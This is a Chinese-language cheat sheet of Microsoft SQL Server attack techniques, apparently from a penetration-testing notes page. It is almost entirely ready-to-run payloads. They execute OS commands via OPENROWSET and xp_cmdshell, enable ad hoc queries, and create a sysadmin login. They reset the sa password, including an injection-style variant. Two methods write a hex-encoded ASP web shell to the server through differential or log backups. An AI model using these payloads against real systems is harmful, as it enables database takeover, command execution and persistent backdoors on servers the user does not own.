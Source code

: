 ### OPENROWSET攻击

```
SELECT * FROM OPENROWSET('SQLOLEDB', '127.0.0.1';'sa';'p4ssw0rd', 'SET FMTONLY OFF execute master..xp_cmdshell "dir"');

```

OPENROWSET 在MSSQL 2005及以上版本中默认是禁用的.

激活OPENROWSET的语句：

```
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;

```

### 添加数据库用户

```
exec sp_addlogin 'name' , 'password'
exec sp_addsrvrolemember 'name' , 'sysadmin'       加为数据库管理员

```

**修改sa用户密码**

```
EXEC sp_password NULL,'NewPassword','sa'           (适用于SQL2000及以上)
alter login [sa] with password=N'NewPassword'      (适用于SQL2005及以上)
;exec master.dbo.sp_password null,username,password;-- 

```

### Get WebShell

差异备份: 创建差异数据库备份需要有以前的完整数据库备份。 如果选定的数据库从未进行过备份，则请在创建任何差异备份之前，先执行完整数据库备份。

#### 方法1

```
backup database 库名 to disk = 'c:\tmp.bak';create table [dbo].[test_tmp] ([cmd] [image]);insert into  test_tmp(cmd) values(0x3C25657865637574652872657175657374282261222929253E);backup database 库名 to disk='c:\shell.asp' WITH DIFFERENTIAL,FORMAT;

```

#### 方法2 (减小体积)

```
alter database web1 set RECOVERY FULL;create table  test_tmp  (a image);backup log web1 to disk = 'c:\cmd' with init;insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253EDA);backup log web1 to disk = 'c:\shell.asp'--

```

